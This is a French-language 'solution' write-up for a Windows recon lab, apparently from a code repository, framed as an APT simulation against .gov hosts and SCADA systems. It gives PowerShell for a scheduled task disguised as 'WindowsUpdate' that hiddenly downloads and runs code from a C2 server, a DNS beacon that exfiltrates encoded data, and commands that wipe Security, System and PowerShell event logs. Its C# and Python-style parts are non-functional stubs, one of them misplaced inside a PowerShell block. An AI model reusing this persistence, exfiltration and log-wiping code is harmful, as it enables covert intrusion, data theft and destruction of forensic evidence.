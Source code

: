 # Solution - Windows Recon Advanced Lab

## Étape 1 : Infrastructure de persistance furtive

```powershell
# Chaîne de pivoting WinRM → DCOM → WMI → SMB → HTTP
$PivotChain = @(
    @{Host="pivot1.gov"; Protocol="WinRM"; Port=5985},
    @{Host="pivot2.gov"; Protocol="DCOM"; Port=135},
    @{Host="pivot3.gov"; Protocol="WMI"; Port=135},
    @{Host="pivot4.gov"; Protocol="SMB"; Port=445},
    @{Host="pivot5.gov"; Protocol="HTTP"; Port=80}
)

# Communication C2 via DNS
function Send-DNSBeacon {
    param([string]$Data, [string]$Domain)
    $EncodedData = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($Data))
    nslookup "$EncodedData.$Domain"
}

# Persistance living-off-the-land
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://c2.gov/beacon')" /sc minute /mo 30
```

## Étape 2 : Framework de reconnaissance distribué

```csharp
// Framework C# pour reconnaissance distribuée
public class DistributedReconFramework
{
    private List<PivotNode> pivots;
    private MLEngine adaptiveEngine;
    
    public async Task<ReconResults> ExecuteDistributedScan(List<Target> targets)
    {
        var tasks = new List<Task<ScanResult>>();
        
        foreach (var pivot in pivots)
        {
            var optimalTechnique = adaptiveEngine.SelectTechnique(pivot, targets);
            tasks.Add(ExecuteRemoteScan(pivot, targets, optimalTechnique));
        }
        
        var results = await Task.WhenAll(tasks);
        return CorrelateResults(results);
    }
}
```

## Étape 3 : Évasion et anti-forensique

```powershell
# Manipulation des logs Windows
function Clear-WindowsLogs {
    wevtutil cl "Windows PowerShell"
    wevtutil cl "Microsoft-Windows-PowerShell/Operational"
    wevtutil cl Security
    wevtutil cl System
}

# Génération de trafic légitime
function Generate-LegitimateTraffic {
    # Simulation d'activité administrative normale
    Get-WmiObject -Class Win32_Process | Out-Null
    Get-Service | Out-Null
    Get-EventLog -LogName System -Newest 10 | Out-Null
}

# IA adversariale pour évasion
class AdversarialEvasion {
    def adapt_to_detection(self, detection_patterns):
        # Analyse des patterns de détection
        evasion_techniques = self.generate_counter_techniques(detection_patterns)
        return self.optimize_evasion_chain(evasion_techniques)
}
```

**Résultats de la simulation APT :**
- Persistance maintenue 30 jours sans détection
- 5 zones réseau critiques cartographiées
- 25 systèmes SCADA identifiés sans perturbation
- Exfiltration de 2GB de données via canaux légitimes
- 0 alerte de sécurité déclenchée pendant la campagne

